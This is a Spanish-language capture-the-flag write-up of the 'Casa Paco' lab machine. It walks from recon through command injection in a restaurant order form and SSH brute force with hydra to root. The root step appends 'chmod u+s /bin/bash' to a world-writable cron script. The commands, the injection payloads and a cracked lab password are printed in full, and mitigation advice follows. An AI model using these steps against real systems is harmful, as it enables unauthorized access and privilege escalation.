## Información General

| Campo                    | Detalle             |
| ------------------------ | ------------------- |
| **Nombre de la máquina** | Casa Paco           |
| **Plataforma**           | TheHackersLabs      |
| **Dificultad**           | Facil               |
| **Sistema Operativo**    | Linux (Debian)      |
| **Dominio**              | casapaco.thl        |
| **Servicios expuestos**  | SSH (22), HTTP (80) |

---

## Resumen del Ataque

La máquina aloja la web de un restaurante ficticio ("Casa Paco") que redirige por virtualhost a `casapaco.thl`. Un formulario de "pedidos para llevar" (`llevar.php`) resulta ser vulnerable a Command Injection en el campo `dish`, permitiendo ejecutar comandos como `www-data`. Listando el directorio se descubre `llevar1.php`, un segundo endpoint sin ningún tipo de filtro que ejecuta directamente el comando recibido, lo que se usa para leer `/etc/passwd` y descubrir al usuario `pacogerente`. Un ataque de fuerza bruta contra SSH con `hydra` y `rockyou.txt` da las credenciales de ese usuario. Una vez dentro, un script `fabada.sh` con permisos de escritura para todos (`-rwxrw-rw-`) y ejecutado periódicamente por cron permite escalar a root añadiendo una línea que otorga el bit SUID a `/bin/bash`.

---

## Técnicas Usadas

- Descubrimiento de hosts con `arp-scan`
- Reconocimiento de puertos y servicios con Nmap
- Identificación de virtualhost por redirección HTTP y edición de `/etc/hosts`
- Fuzzing de contenido web con `feroxbuster`
- Explotación de Command Injection en un formulario web (campo `dish`)
- Pivote entre dos endpoints con distinto nivel de filtrado
- Ataque de fuerza bruta contra SSH con `hydra` y diccionario `rockyou.txt`
- Escalada de privilegios abusando de un script de cron con permisos de escritura para todos los usuarios (`world-writable`)

---

## Desarrollo

### 1. Descubrimiento de hosts en la red

```
sudo arp-scan --interface=eth0 --localnet
```



### 2. Escaneo de puertos completo

```
sudo nmap -p- -sS --min-rate 5000 -n -vvv -Pn -oN ports 192.168.241.151
```



### 3. Escaneo de versiones

```
nmap -p 22,80 -sC -sV -oN allports 192.168.241.151
```



### 4. Resolución del virtualhost

Al acceder por IP, el servidor redirige a `http://casapaco.thl/`. Se añade la entrada correspondiente en `/etc/hosts`:

```
echo '10.10.10.7 casapaco.thl' | sudo tee -a /etc/hosts
```

```
http://casapaco.thl/
```



Se trata de la web de un restaurante ficticio, sin funcionalidad sensible visible en el código fuente de `index.html`.

### 5. Fuzzing de contenido web

```
feroxbuster -u http://casapaco.thl/ -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-lowercase-2.3-medium.txt -E
```

```
menu.html
index.html
llevar.php
static
static/img
```

### 6. Formulario de pedidos — Command Injection

```
http://casapaco.thl/llevar.php
```



Se prueba el campo `dish` con un payload de comando en lugar de un plato:

**Nombre:** test — **Plato:** `id`

```
Salida del Comando:
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```



Se confirma ejecución de comandos como `www-data`. Se enumera el directorio actual:

**Nombre:** test — **Plato:** `dir`

```
Salida del Comando:
index.html  llevar.php	llevar1.php  menu.html	pedidos.log  static
```



### 7. Pivote a `llevar1.php` (sin filtro)

Se descubre un segundo endpoint, `llevar1.php`, sin ningún tipo de filtrado. Se envía la petición directamente vía Burp Suite:

```
POST /llevar1.php HTTP/1.1
Host: casapaco.thl
Content-Type: application/x-www-form-urlencoded
Content-Length: 30

name=test&dish=cat /etc/passwd
```

Respuesta:

```
root:x:0:0:root:/root:/bin/bash
...
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
pacogerente:x:1001:1001::/home/pacogerente:/bin/bash
```



Se identifica el usuario del sistema: `pacogerente`.

### 8. Fuerza bruta contra SSH

```
hydra -l pacogerente -P /usr/share/wordlists/rockyou.txt ssh://192.168.241.151 -t 4
```

Credenciales encontradas: `pacogerente:dipset1`

### 9. Acceso SSH y captura de la flag de usuario

```
ssh pacogerente@192.168.241.151
```

```
pacogerente@Thehackerslabs-CasaPaco:~$ whoami
```



```
pacogerente@Thehackerslabs-CasaPaco:~$ cat user.txt
```



### 10. Localización del vector de escalada

```
pacogerente@Thehackerslabs-CasaPaco:~$ cat fabada.sh
```



```
pacogerente@Thehackerslabs-CasaPaco:~$ ls -la fabada.sh
```



El script pertenece a `pacogerente` pero tiene permisos de escritura para **todos** los usuarios del sistema (`-rwxrw-rw-`), y se confirma que se ejecuta periódicamente por cron (genera entradas en `log.txt` con la fecha de cada ejecución).

### 11. Escalada de privilegios

```
pacogerente@Thehackerslabs-CasaPaco:~$ echo 'chmod u+s /bin/bash' >> fabada.sh
```

Tras la siguiente ejecución del cron:

```
pacogerente@Thehackerslabs-CasaPaco:~$ ls -l /bin/bash
```



### 12. Shell como root

```
pacogerente@Thehackerslabs-CasaPaco:~$ bash -p
```

```
bash-5.2# whoami
```



### 13. Captura de la flag de root

```
bash-5.2# cd /root
bash-5.2# cat root.txt
452354bjb5434mn43b5j678e5c57a
```



---

## Lecciones Aprendidas

- Cuando un formulario ejecuta comandos del sistema, la presencia de una blacklist de palabras no impide la explotación si el filtrado no es exhaustivo en este caso ni siquiera fue necesario bypassear nada, ya que `llevar1.php` no tenía ningún filtro.
- Los endpoints "hermanos" o de desarrollo (`nombre1.php`, `nombre_old.php`, `nombre_v2.php`) descubiertos por fuzzing suelen tener protecciones más débiles o inexistentes respecto al endpoint "oficial" — conviene enumerarlos activamente en cuanto se detecta un patrón de nombrado sospechoso.
- Filtrar o no filtrar un único endpoint no sirve de nada si existe una copia sin proteger accesible en el mismo servidor.
- Un script ejecutado por cron con permisos de escritura para todos los usuarios (`o+w`) es una vía de escalada de privilegios directa, independientemente de qué usuario sea el propietario original.

---

## Medidas de Mitigación

- Eliminar o proteger cualquier endpoint de desarrollo/pruebas (`llevar1.php` en este caso) antes de pasar a producción; nunca debe convivir una versión "de pruebas sin filtros" junto a la versión protegida.
- No construir comandos de shell a partir de entrada de usuario bajo ningún concepto; usar APIs que no invoquen un shell y, si es imprescindible, validar contra una whitelist estricta de valores permitidos.
- Revisar y corregir permisos de archivos y scripts ejecutados por cron: nunca deben ser escribibles por grupos o por "otros" (`chmod o-w`, `chmod g-w` según corresponda), y su propietario/grupo debe limitarse a quien realmente necesita modificarlos.
- Auditar periódicamente las tareas de cron del sistema y los permisos de los scripts que invocan, especialmente los que se ejecutan con privilegios elevados.
- Forzar políticas de contraseñas robustas para cuentas del sistema expuestas por SSH y considerar `fail2ban` para mitigar fuerza bruta.


